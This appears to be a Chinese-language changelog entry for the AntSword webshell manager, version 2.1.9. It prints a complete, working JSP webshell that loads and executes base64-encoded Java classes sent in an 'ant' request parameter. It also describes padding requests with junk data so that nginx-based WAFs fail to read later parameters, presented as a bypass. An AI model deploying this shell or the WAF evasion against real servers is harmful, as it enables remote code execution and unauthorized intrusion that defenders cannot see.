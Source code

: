   > 支持所有类型


## 2020/09/10 `v(2.1.9)`

### 核心

* 新增 JSP 类型一句话支持 (**试验功能**)

使用的 Shell 例如：

```
<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```

> JSP 类型目前采用硬编码字节码方式, 编译版本为 jdk 1.7, 可根据使用场景自行编译。

代码模版参见: https://github.com/AntSwordProject/AntSword-JSP-Template

**注意**

JSP 类型 Shell 修改文件权限功能，不支持 Windows 系统，在 Linux 系统下不支持 SUID 设置

> 例如设置为 2644 实际上与 0644 效果相同

* 新增其他参数增加随机前缀

### 后端模块

* request 增加垃圾数据填充功能 (thx: @yzddmr6)

> 支持 form-data 和 multipart 模式

![mass_1.png](https://i.loli.net/2020/01/19/32HiSUvjPrMwfy5.png)

![mass_2.png](https://i.loli.net/2020/01/19/EaKruhcHklPFAe7.png)

![mass_3.png](https://i.loli.net/2020/01/19/UOX2HKuYyJQS7R1.png)

该模块不会改变 payload, 仅会填充垃圾数据, 部分基于 nginx 二次开发的 WAF 会因为过多参数导致 WAF 获取不到后面的数据，从而达到 Bypass 目的。
